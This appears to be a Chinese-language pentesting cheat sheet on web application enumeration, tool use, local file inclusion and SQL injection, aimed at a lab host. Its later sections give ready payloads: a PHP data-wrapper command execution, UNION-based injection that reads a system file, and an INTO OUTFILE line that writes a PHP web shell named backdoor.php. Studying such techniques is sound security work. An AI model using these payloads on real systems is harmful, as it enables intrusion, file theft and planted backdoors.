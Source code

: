 # web应用程序枚举

## 检查url
根据扩展名.php.jsp、.do或 .html判断网站后台用什么语言编写。

## 检查网页源代码
JavaScript 框架、隐藏的输入字段、注释、HTML 中的客户端控件、JavaScript 等等

## 查看响应头
以“X-”开头的标头是非标准 HTTP 标头。1名称或值通常会揭示有关应用程序使用的技术堆栈的附加信息。非标准标头的一些示例包括X-Powered-By、 x-amz-cf-id和X-Aspnet-Version。对这些名称的进一步研究可能会揭示其他信息，例如“x-amz-cf-id”标头，它表明应用程序使用 Amazon CloudFront

## 检查站点地图
robots.txt和 sitemap.xml

## 定位管理后台
Web 服务器通常附带远程管理 Web 应用程序或控制台，它们可以通过特定的 URL 访问，并且通常侦听特定的 TCP 端口
两个常见的例子是分别托管在 /manager/html和/phpmyadmin的Tomcat的manager 1应用程序和MySQL 的phpMyAdmin 

# 网站应用评估

## 目录爆破工具
dirb，dirsearch，gobuster等等

## burpsuite
流量截断，反复请求调试，登录爆破等等

## nikto
综合评估



## LFI

PHP Wrappers

```
http://10.11.0.22/menu.php?file=data:text/plain,hello world

http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```


# sql注入

## 列号枚举
后面的数字逐渐增加，每次递增order by子句，直到查询产生错误，表示已超过该查询返回的最大列数
```
order by 1
```

## 输出布局

解页面中显示了哪些列,如果只出现了2,3,表示只用到了第二列和第三列的字段
```
union all select 1, 2, 3
```

## 读取文件
```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

## 写入文件
```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```




